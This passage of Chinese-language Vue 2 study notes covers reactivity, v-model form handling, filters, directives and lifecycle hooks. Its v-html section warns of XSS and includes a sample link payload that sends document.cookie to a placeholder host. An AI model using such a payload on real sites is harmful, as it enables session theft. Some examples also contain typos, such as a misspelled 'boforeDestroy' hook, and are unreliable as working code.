            <li v-for="(f,index) in student.friends" :key="index">{{f.name}}-{{f.age}}></li>
        </ul>
    </div>
</body>
<script>
    const vm = new Vue({
        el: '.root',
        data: {
            student: {
                name: 'tom',
                age: 18,
                hobby: ['抽烟', '喝酒', '烫头'],
                friends: [
                    { name: 'a', age: 22 },
                    { name: 'b', age: 65 }
                ]
            }
        },
        methods:{
            addSex(){
                Vue.set(this.student,'sex','男')
            },
            addfriend(){
                this.student.friends.unshift({name:'c',age:1111})
            },
            changefriend(){
                // this.student.friends.splice(0,1,{name:'张三',age:999})
                this.student.friends[0].name = '张三'//因为此时修改的数组中的对象的name有它自己的name的setter和getter,所以可以熊爱国影视修改
                // 但是如果直接修改数组hobby中的第[0]项则不行
            },
            addhobby(){
                this.student.hobby.push('学习')
            },
            changehobby(){
                // this.student.hobby.splice(0,1,'开车')
                this.$set(this.student.hobby,0,'开车')
            },
            filterhobby(){
                this.student.hobby= this.student.hobby.filter((h)=>{
                    return h!=='抽烟'
                })
            }
        }
    })
</script>
</html>
```

### 6.数据劫持

是指在js中对对象的属性进行监视和拦截,一遍在属性被访问和修改时执行一些特定的逻辑,数据劫持通常用于实现数据绑定,观察模式和响应式编程等技术

通过Object.defineProperty(),可以在属性被访问或修改时触发特定的回调函数,从而实现数据劫持

## 十七、收集表单数据

- 若<input type="text"/>,则v-model收集的是value值,用户输入的就是value值
- 若<input type="radio"/>,则v-model收集的是value值,且要给标签配置value值
- 若<input type="checkbox"/>,
  1. 没有配置input的value属性,那么收集的就是checked(勾选or未勾选,是布尔值)
  2. 配置input的value属性:
     1. v-model的初始值是非数组,那么收集的就是checked(勾选or未勾选,是布尔值)
     2. v-model的初始值是数组,那么收集的就是value组成的数组

备注:model的三个修饰符:

- *v-model.trim 去掉前后空格* 
- *v-model.number将存的数字保存为number格式*
- *v-model.lazy失去焦点再保存数据*

```js
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="../js/vue (1).js"></script>
</head>

<body>
    <div id="root">
        <form @submit.prevent="demo" action="">
            <label for="acc">账号: </label>
            <input type="text" v-model.trim="userinfo.account" id="acc"><br><br>
            <!-- .trim 去掉前后空格 -->
            <label for="pwd">密码: </label>
            <input type="password" v-model="userinfo.password" id="pwd"><br><br>
            <label for="age">年龄: </label>
            <input type="number" v-model.number="userinfo.age" id="age"><br><br>
            <!-- .number将存的数字保存为number格式 -->
            性别:
            男 <input type="radio" value="male" v-model="userinfo.sex" name="sex">
            女 <input type="radio" value="female" v-model="userinfo.sex" name="sex"><br><br>
            爱好:
            学习 <input type="checkbox" v-model="userinfo.hobby" value="study">
            吃饭 <input type="checkbox" v-model="userinfo.hobby" value="eat">
            游戏 <input type="checkbox" v-model="userinfo.hobby" value="game">
            <br><br>
            <select name="" id="" v-model="userinfo.city">
                <option value="">请选择校区</option>
                <option value="xian">西安</option>
                <option value="wuhan">武汉</option>
                <option value="anhui">安徽</option>
            </select>
            <br><br>
            其他信息:
            <textarea v-model.lazy="userinfo.other" name="" id="" cols="30" rows="10"></textarea>
            <!-- .lazy失去焦点再保存数据 -->
            <br><br>
            <input v-model="userinfo.agree" type="checkbox" name="" id="">阅读并接受 <a href="#">《用户协议》</a>
            <br><br>
            <button>提交</button>
        </form>
    </div>
</body>
<script>
    const vm = new Vue({
        el: '#root',
        data: {
            userinfo: {
                account: '',
                password: '',
                age:'',
                sex: 'male',
                hobby: [],
                city: '',
                other: '',
                agree: '',
            }
        },
        methods: {
            demo() {
                // console.log(this.account);
                // console.log(this.password);
                // console.log(this.sex);
                // console.log(this.hobby);
                // console.log(this.city);
                // console.log(this.other);
                // console.log(this.agree);
                console.log(JSON.stringify(this.userinfo));
            }
        }
    })
</script>
</html>
```

## 十八、过滤器

### 1.定义

对要显示的数据进行特定格式化后再显示

### 2.语法

1. 注册过滤器:Vue.filter(name,callback)(全局注册)或new Vue{filter:{}}(局部注册)
2. 使用过滤器:{{ xxx | 过滤器名 }} 或 v-bind:属性 = "xxx | 过滤器名"

### 3.备注

- 过滤器也可以接收额外参数,多个过滤器也可以串联
- 并没与改变原本的数据,时产生新的对应的数据

```js
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="../js/vue (1).js"></script>
    <script src="https://cdn.bootcdn.net/ajax/libs/dayjs/1.11.9/dayjs.min.js"></script>
</head>

<body>
    <div class="root">
        <!-- 计算属性实现 -->
        <h2>现在是:{{fmttime}}</h2>
        <!-- methods实现 -->
        <h2>现在是:{{getfmttime()}}</h2>
        <!-- 过滤器实现 -->
        <h2>现在是:{{time | timeformater}}</h2>
        <!-- 过滤器传参 -->
        <h2>现在是:{{time | timeformater2('YYYY年MM月DD日') }}</h2>
        <!-- 多过滤器串联 -->
        <h2>现在是:{{time | timeformater2('YYYY年MM月DD日')| myslice }}</h2>
        <h3 :x="msg | myslice">asdadas</h3>
    </div>
</body>
<script>
    // 全局过滤器
    Vue.filter('myslice',function (value){
        return value.slice(0,4)
    })
    const vm = new Vue({
        el: '.root',
        data: {
            time: 1621561377603,
            msg:'很大的啊实打实'
        },
        computed: {
            fmttime() {
                return dayjs(this.time).format('YYYY-MM-DD HH:mm:ss')
            }
        },
        methods: {
            getfmttime() {
                return dayjs(this.time).format('YYYY-MM-DD HH:mm:ss')
            }
        },
        // 局部过滤器
        filters:{
            timeformater(value){
                console.log(value);
                return dayjs(value).format('YYYY-MM-DD HH:mm:ss')
            },
            timeformater2(value,str){
                console.log(value);
                return dayjs(value).format(str)
            },
            myslice(value){
                return value.slice(0,4)
            }
        },
    })
</script>

</html>
```

## 十九、指令

#### 什么是指令

指令就是**属性**，它是一个特殊的**自定义属性**

在开始标签中，以 `v-` 为开头的属性，其结果直接作用于DOM节点，这种我们称之为指令。

```
<标签 v-xx="值"></标签>

指令的值，都是js
```

#### 指令分类

- 系统指令（即内置指令）：vue作者直接封装的，可以满足日常开发需求（重点）
- 自定义指令：根据自己的需求，自我封装指令

#### 系统指令

##### 1、v-text

```
作用：文本输出
```

```html
<h1 v-text="msg"></h1>
```

与插值语法的区别:v-text会替换掉节点中的内容,{{xx}}则不会

##### 2、v-html

```
作用：用于解析html语法
```

```html
<div v-html="con"></div>
```

容易被xss注入

```js
   <div v-html="str" class="root"></div>
</body>
<script>
    new Vue({
        el: '.root',
        data: {
            str: '<a href=javascript:location.href="http://www.xxx.com"+document.cookie>点击链接</a>'
        }
    })
```

##### 3、v-bind v-model

v-bind单向绑定

```
作用：动态绑定属性，我们可以简写成 :

<标签 v-bind:属性名 = '值'></标签>
```

用图片的src 和 a标签的href属性测试看看

```html
<!-- 直接给title给值，它认为就是一个字符串，而不是当做一个变量 -->
<h1 title="title">{{msg}}</h1>

<!-- 加上v-bind，它就认为title是一个变量了 -->
<!-- v-bind 动态绑定属性，我们可以简写成 : -->
<h1 v-bind:title="title">{{msg}}</h1>

<hr />
<!--  -->

<a :href="url">百度</a>
```


v-model双向绑定

只能应用在表单类元素上,input,Select...(存在value)

```js
<body>
    <div class="root">
        <input type="text" v-bind:value="name">
        <input type="text" v-model:value="name">
    </div>
</body>
<script>
    new Vue({
        el:'.root',
        data:{
            name:'名字'
        }
    })
</script>
```

简写:

```js
        <input type="text" :value="name">
        <input type="text" v-model="name">
```

##### 4、v-on

```
1、事件绑定，可以简写成@
2、调用函数时，可以加小括号，也可以不加
3、如果逻辑代码只有一句，可以省略封装方法，直接写在这里
```

```html
<button v-on:事件名="定义在methods中的函数">点击获取惊喜</button>
<button @事件名="定义在methods中的函数">点击获取惊喜</button>
```

##### 5、v-if

* v-if、v-else-if、v-else

它用来控制dom节点的显示或消失

```html
分别查看v-if的三种不同的组合
    <p>成绩：{{ score }}</p>
    <span>等级：</span>
    <!-- v-if、v-else-if、v-else指令如果同时使用，则必须连续使用，中间不能混入其他标签 -->
    <span v-if="score>80">优秀</span>
    <span v-else-if="score>70">良好</span>
    <span v-else-if="score>60">及格</span>
    <span v-else>不及格</span>
```

```
v-if的使用场景：购物车
购物车中如果有商品，则展示商品，如果没有商品，则展示购物车空空如也
```


##### 6、v-show

控制DOM的显示或隐藏

```html
<!-- v-show="布尔" 如果值为真，则显示，否则隐藏 -->
<!-- 它是css的显示和隐藏 -->

<button @click="isShow = !isShow">切换显示</button>
<h1 v-show="isShow">{{msg}}</h1>
```


**经典面试题**

```
v-show 和 v-if 的区别是什么？

相同点：
	都可以用于条件判断，都可以控制显示隐藏
不同点：
    v-if是false的时候，删除了（移除了）DOM节点，我们也管它叫惰性加载。
    v-show是false的时候，在它的节点上添加了一个样式：display:none
使用场景：
    如果你疯狂的要显示隐藏，其实就会操作DOM，这个时候就用v-show
    如果是根据不同的条件渲染不同的界面，这个时候就用v-if
    
v-if在初次加载时，如果不用显示，则不创建元素，v-show不论显示或不显示，都要建元素。则v-show的初次加载更耗时
```


##### 7、v-for

作用：循环遍历

注意：重复谁，就在谁的标签上添加 v-for

```
数组：
v-for='(item,index) in/of 数组'   item代表你循环的每一个元素（数组每一项）

对象:
v-for='(value,key,index) in/of 对象'  value为对象的value值，key为对象的key值，index为循环当前key时的下标
```

案例：

```js
comment:[
      {
        id:1,
        star:"☆☆☆",
        content:"一般般"
      },{
        id:2,
        star:"☆☆☆☆☆",
        content:"非常好"
      },{
        id:3,
        star:"☆☆☆",
        content:"还可以"
      },{
        id:4,
        star:"☆",
        content:"质量差"
      }
    ]
```

**案例**：

题目：使用vue指令实现网易云音乐页面渲染

步骤：

外层循环实现排行榜列表渲染。内层循环实现某个排行榜内歌曲列表的渲染。


```js
toplist: [
    {
        title: "飙升榜",
        img: "https://y.gtimg.cn/music/photo_new/T003R300x300M000004P1mcb2xwTF6.jpg?max_age=2592000",
        songlist: [
            {
                id: 1,
                name: "你要我如何我就如何",
                singger: "大弯区。。。",
            },
            {
                id: 2,
                name: "丑八怪",
                singger: "薛之谦",
            },
            {
                id: 3,
                name: "模特",
                singger: "李荣浩。",
            },
        ],
    },
    {
        title: "新歌榜",
        img: "https://y.gtimg.cn/music/photo_new/T003R300x300M000002E7NcK3tHpS2.jpg?max_age=2592000",
        songlist: [
            {
                id: 11,
                name: "你要我如何我就如何1",
                singger: "大弯区。。。",
            },
            {
                id: 21,
                name: "丑八怪1",
                singger: "薛之谦",
            },
            {
                id: 31,
                name: "模特1",
                singger: "李荣浩。",
            },
        ],
    },
    {
        title: "原创榜",
        img: "https://y.gtimg.cn/music/photo_new/T003R300x300M000003DdY3E3GdCE2.jpg?max_age=2592000",
        songlist: [
            {
                id: 12,
                name: "你要我如何我就如何2",
                singger: "大弯区。。。",
            },
            {
                id: 22,
                name: "丑八怪2",
                singger: "薛之谦",
            },
            {
                id: 32,
                name: "模特2",
                singger: "李荣浩。",
            },
        ],
    },
    {
        title: "热歌榜",
        img: "https://y.gtimg.cn/music/photo_new/T003R300x300M000001V7Gsi01BwcI.jpg?max_age=2592000",
        songlist: [
            {
                id: 15,
                name: "你要我如何我就如何5",
                singger: "大弯区。。。",
            },
            {
                id: 25,
                name: "丑八怪5",
                singger: "薛之谦",
            },
            {
                id: 35,
                name: "模特5",
                singger: "李荣浩。",
            },
        ],
    },
],
```


**v-for中key值的作用**：标识唯一性

`key` 的特殊 attribute 主要用在 Vue 的虚拟 DOM 算法，在新旧 nodes 对比时辨识 VNodes。如果不使用 key，Vue 会使用一种最大限度减少动态元素并且尽可能的尝试就地修改/复用相同类型元素的算法。而使用 key 时，它会基于 key 的变化重新排列元素顺序，并且会移除 key 不存在的元素。

有相同父元素的子元素必须有**独特的 key**。重复的 key 会造成渲染错误。


##### 8、v-cloak

- 本质是一个特殊属性,Vue实例创建完毕并接管容器后,会删掉v-cloak属性
- 使用css配合v-cloak可以解决网速慢时页面闪屏展示出{{xxx}}的问题

```js
    <style>
        [v-cloak]{
            display: none;
        }
    </style>
</head>
<body>
    <div class="root">
        <h2 v-cloak>{{name}}</h2>
    </div>
    <script src="../js/vue (1).js"></script>
    <script>
        new Vue({
            el:'.root',
            data:{
                name:'aaa'
            }
        })
    </script>
</body>
```


##### 9、v-once

- v-once所在节点在初次动态渲染后,就视为静态内容了
- 以后数据的改变不会引起v-once所在结构的更新,可以用于优化性能

```js
    <div id="root">
        <h2 v-once>初始化n是:{{n}}</h2>
        <h2>{{n}}</h2>
        <button @click="n++">n+1</button>
    </div>
</body>
<script>
    Vue.config.productionTip = false //阻止vue启动时生成生产提示
    const vm = new Vue({
        el:'#root',
        data:{
            n:1
        },
    })
```


##### 10、v-pre

- 跳过其所在节点的编译过程
- 可利用它跳过:没有使用指令语法,没有使用插值语法的节点,加快编译

```js
<h1 v-pre>{{n}}</h1>
```


#### 自定义指令

##### 1.定义语法:

- 局部指令

```js
new Vue({
directives:{指令名:配置对象}
})
//或
new Vue({
directives(){}
})
```

- 全局指令

```js
Vue.directive(指令名,配置对象)
//或
Vue.directive(指令名,回调函数)
```


##### 2.配置对象中常用的是哪个回调:

1. .bind:指令与元素成功绑定时调用
2. .inserted:志林所在模板结构被重新解析时调用
3. 指令所在模版结果被重新解析时调用


##### 3.备注

1. 指令定义时不加v-,但使用时要加v-
2. 指令名如果是多个单词,要使用kebab-case命名方式,如v-big-number


##### 需求1:定义一个v-big指令,和v-text功能类似,但会把绑定的数值放大10倍

```js
<body>
    <div id="root">
        <h2></h2>
        <h2>当前n: <span v-text="n"></span></h2>
        <h2>当前n扩大十倍 :<span v-big="n"></span></h2>
        <button @click="n++">n++</button>
    </div>
</body>
<script>
    Vue.config.productionTip = false //阻止vue启动时生成生产提示
    const vm = new Vue({
        el:'#root',
        data:{
            n:1
        },
        directives:{
            // big函数合适会被调用?1.指令与元素成功绑定时.2.指令所在的模版呗重新解析时
            big(element,binding){
                element.innerText = binding.value * 10
            }
        }
    })
</script>
```

##### 需求2:定义一个v-fbind指令,和v-bind功能类似,但可以让其所绑定的input元素默认获取焦点

```js
<body>
    <div id="root">
        <h2></h2>
        <input type="text" name="" v-fbind:value="n" id="">
    </div>
</body>
<script>
    Vue.config.productionTip = false //阻止vue启动时生成生产提示
    const vm = new Vue({
        el:'#root',
        data:{
            n:1
        },
        directives:{
            fbind:{
                // 指令与元素绑定时
                bind(element,binding){
                    console.log('绑定成功');
                    element.value = binding.value
                },
                //指令所在元素被插入页面时
                inserted(element,binding){
                    console.log('插入成功');
                    element.focus()
                },
                //指令所在的模版被重新解析时
                update(element,binding){
                    console.log('解析成功');
                    element.value = binding.value
                }
            }
        }
    })
</script>
```

##### 全局自定义指令

```js
<body>
    <div id="root">
        <h2></h2>
        <input type="text" name="" v-fbind:value="n" id="">
    </div>
</body>
<script>
    Vue.config.productionTip = false //阻止vue启动时生成生产提示
    Vue.directive('fbind', {
        // 指令与元素绑定时
        bind(element, binding) {
            console.log('绑定成功');
            element.value = binding.value
        },
        //指令所在元素被插入页面时
        inserted(element, binding) {
            console.log('插入成功');
            element.focus()
        },
        //指令所在的模版被重新解析时
        update(element, binding) {
            console.log('解析成功');
            element.value = binding.value
        }
    })
    Vue.directive('big', function (element, binding) {
        element.innerText = binding.value * 10
    })
    const vm = new Vue({
        el: '#root',
        data: {
            n: 1
        },
        directives: {
            // fbind: {
            //     // 指令与元素绑定时
            //     bind(element, binding) {
            //         console.log('绑定成功');
            //         element.value = binding.value
            //     },
            //     //指令所在元素被插入页面时
            //     inserted(element, binding) {
            //         console.log('插入成功');
            //         element.focus()
            //     },
            //     //指令所在的模版被重新解析时
            //     update(element, binding) {
            //         console.log('解析成功');
            //         element.value = binding.value
            //     }
            // }
        }
    })
</script>
```

## 二十、声明周期

### 1.简介

- 又名:生命周期回调函数,生命周期函数,声明周期钩子
- 是什么:Vue在关键时刻帮我们调用的一些特殊名称的函数
- 生命周期函数的名字不可更改,但函数的具体内容是层许愿根据需求编写的
- 生命周期函数中的this指向是vm或组件实例对象





### 2.常用的声明周期钩子:

- mounted发送ajax请求,启动定时器,绑定自定义事件,订阅消息等
- beforeDestroy:清除定时器,解绑自定义文件,取消订阅消息等

### 3.关于销毁Vue实例

- 销毁后借助Vue开发者工具看不到任何信息
- 销毁后自定义事件会失效,但原生DOM事件依然有效
- 一般不会beforeDestroy操作数据,因为即使操作数据,也不会在触发更新流程

### 4.生命周期函数

```js
        beforeCreate(){},
        created(){},
        beforeMount(){},
        mounted(){},
        beforeUpdate(){},
        updated(){},
        beforeDestroy(){},
        Destroyed(){},
```

### 5.举例

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <style>

    </style>
    <script src="../js/vue (1).js"></script>
</head>

<body>
    <div id="root">
        <h2 :style="{opacity}">欢迎学习vue</h2>
        <button @click="opacity=1">透明度设置为1</button>
        <button @click="stopall">点我彻底停止</button>
    </div>
</body>
<script>
    Vue.config.productionTip = false //阻止vue启动时生成生产提示
    const vm = new Vue({
        el: '#root',
        data: {
            opacity: 1
        },
        methods: {
            stopall() {
                this.$destroy()
            }
        },
        //Vue完成模版的解析并把初始的真实DOM元素放入页面后(挂载完毕)调用mounted
        mounted() {
            this.timer = setInterval(() => {
                this.opacity -= 0.01
                if (vm.opacity <= 0) {
                    vm.opacity = 1
                }
            }, 16)
        },
        boforeDestroy() {
            clearInterval(this.timer)
        },
    })
</script>
</html>
```

